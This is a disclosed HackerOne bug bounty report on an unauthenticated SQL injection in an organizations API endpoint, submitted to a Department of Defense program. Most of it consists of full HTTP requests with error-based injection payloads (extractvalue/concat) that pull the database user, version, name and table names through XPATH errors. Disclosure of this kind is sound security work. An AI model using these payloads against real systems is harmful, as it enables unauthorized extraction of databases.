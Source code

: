 # Unauthenticated SQL Injection at █████████  [HtUS]

## Report Details
- **Report ID**: 1626226
- **URL**: https://hackerone.com/reports/1626226
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-05T14:03:32.420Z
- **Disclosed**: 2022-10-14T17:54:41.604Z

## Reporter
- **Username**: 0xd0ff9
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary
Hi team, I found Unauthenticated SQL Injection at ██████. Because of non-filter and non-escape input at API /api/organizations/*, attacker can inject malicious payload after single quote (') to exploit and extract database.

## Step to Reproduce:

Execute Request
```
GET /api/organizations/0010jdlwix09k'or(extractvalue(rand(),concat(0x3a,(select+user()))))=1--%20aa HTTP/1.1
Host: ████ 
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3 
Accept-Encoding: gzip, deflate 
Upgrade-Insecure-Requests: 1 
Sec-Fetch-Dest: document 
Sec-Fetch-Mode: navigate 
Sec-Fetch-Site: none 
Sec-Fetch-User: ?1 
Te: trailers



```


Then the response is 

```
HTTP/1.1 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Content-Length: 209
Cross-Origin-Embedder-Policy: require-corp
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Resource-Policy: same-origin
X-DNS-Prefetch-Control: off
Expect-CT: max-age=0
X-Frame-Options: SAMEORIGIN
X-Download-Options: noopen
X-Content-Type-Options: nosniff
Origin-Agent-Cluster: ?1
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: no-referrer
X-XSS-Protection: 0
Strict-Transport-Security: max-age=31536000
Expires: Tue, 05 Jul 2022 04:12:11 GMT
Cache-Control: max-age=0, no-cache, no-store
Pragma: no-cache
Date: Tue, 05 Jul 2022 04:12:11 GMT
Connection: keep-alive

{"statusCode":500,"code":"P2010","error":"Internal Server Error","message":"\nInvalid `prisma.queryRaw()` invocation:\n\n\n  Raw query failed. Code: `1105`. Message: `XPATH syntax error: ':█████████'`"}
```


The result was leaked by SQL XPATH Error, so we get user() = ████████

Change query to version() we get version = 8.0.23
https://██████/api/organizations/0010jdlwix09k'or(extractvalue(rand(),concat(0x3a,(select+version()))))=1--%20aa

Change query to version() we get database = ███
https://███/api/organizations/0010jdlwix09k'or(extractvalue(rand(),concat(0x3a,(select+database()))))=1--%20aa

█████████
██████████
███
To extract data, we use this requests
```
GET /api/organizations/'or(extractvalue(1,concat(1,(select(table_name)from%20information_schema.tables%20limit%2054,1))))=' HTTP/1.1
Host: ████ 
User-Agent: Mozilla/5.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3 
Accept-Encoding: gzip, deflate 
Upgrade-Insecure-Requests: 1 
Sec-Fetch-Dest: document 
Sec-Fetch-Mode: navigate 
Sec-Fetch-Site: none 
Sec-Fetch-User: ?1 
Te: trailers


```

█████

## Impact

Attacker can extract database from server █████

## Attachments
No attachments
